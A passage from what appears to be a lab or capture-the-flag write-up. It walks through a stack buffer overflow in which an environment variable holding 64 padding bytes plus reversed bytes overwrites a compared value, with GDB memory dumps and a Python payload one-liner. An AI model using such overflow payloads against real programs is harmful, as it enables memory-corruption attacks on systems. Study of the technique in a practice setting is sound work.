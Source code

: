 Now the environment value has been set, our addresses appear to have changed. I believe the environment value is the reason for this, but anyway... in this case the addresses don't matter it is just the offsets (which should remain the same):

```
(gdb) x/30wx $esp
0xbffffbf0:	0xbffffc08	0xbffffebb	0xb7fff8f8	0xb7f0186e
0xbffffc00:	0xb7fd7ff4	0xb7ec6165	0x41414141	0x41414141 <--- input starts on this row
0xbffffc10:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffc20:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffc30:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffc40:	0x41414141	0x41414141	0x42424242	0xbffffe00  <--- 42424242 ($esp+0x58)
0xbffffc50:	0x08048530	0x00000000	0xbffffcd8	0xb7eadc76
0xbffffc60:	0x00000001	0xbffffd04
```

We can confirm the above offset and overwrite with the following:

```
(gdb) x/wx $esp+0x58
0xbffffc48:	0x42424242
```

So, it looks like we have gotten full control of the value used in the comparison, which decides which condition branch to take. We now just need to make sure the "BBBB" actually equals the hex value '0xd0a0d0a'. Remember, we need to reverse the byte order to match the endian-ness, this will result in the follow chunks:
	0x0a 0x0d 0x0a 0x0d

With this knowledge, our final payload for the environment variable should be:

```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x0a\x0d\x0a\x0d
```

In Python, we can do this like:

```
$(python -c "print 'A'*64 + '\x0a\x0d\x0a\x0d'")
```

When setting this as an environment variable I was running into some weird issues:

```
$ export GREENIE=$(python -c "print 'A'*64 + '\x0a\x0d\x0a\x0d'")
: bad variable name
```

Still no idea what this was, but I found a work around online (thanks random users of the internet):

```
$ GREENIE=$(python -c "print 'A'*64 + '\x0a\x0d\x0a\x0d'")
$ export GREENIE
```

Okay, now let's jump into GDB once again and break on the same spot (just before our 'cmp' instruction):

```
(gdb) x/30wx $esp
0xbffffbf0:	0xbffffc08	0xbffffebb	0xb7fff8f8	0xb7f0186e
0xbffffc00:	0xb7fd7ff4	0xb7ec6165	0x41414141	0x41414141
0xbffffc10:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffc20:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffc30:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffc40:	0x41414141	0x41414141	0x0d0a0d0a	0xbffffe00
0xbffffc50:	0x08048530	0x00000000	0xbffffcd8	0xb7eadc76
0xbffffc60:	0x00000001	0xbffffd04

(gdb) x/wx $esp+0x58
0xbffffc48:	0x0d0a0d0a
```